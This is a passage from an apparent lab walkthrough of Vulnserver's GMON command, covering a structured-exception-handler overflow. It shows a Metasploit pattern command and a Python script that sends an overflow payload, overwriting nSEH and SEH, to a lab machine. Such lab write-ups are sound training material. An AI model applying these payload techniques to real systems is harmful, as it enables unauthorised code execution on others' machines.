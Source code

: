 <img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-firststep.png">
</div>

It seems like, we are not in the right track to access the memory of the shellcode if placed

Lets use ```mona``` to find the offsets of all registers at this point to get some idea

Creating a pattern,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 3549
<GENERATED PATTERN>
```

Creating a fuzzing script to locate offsets by overwriting nSEH and SEH,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat offset-stack.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"<GENERATED PATTERN>"
# to overwrite nSEH
payload+=b"\xeb\xce"
payload+=b"\x90\x90"
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62"
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 offset-stack.py
```

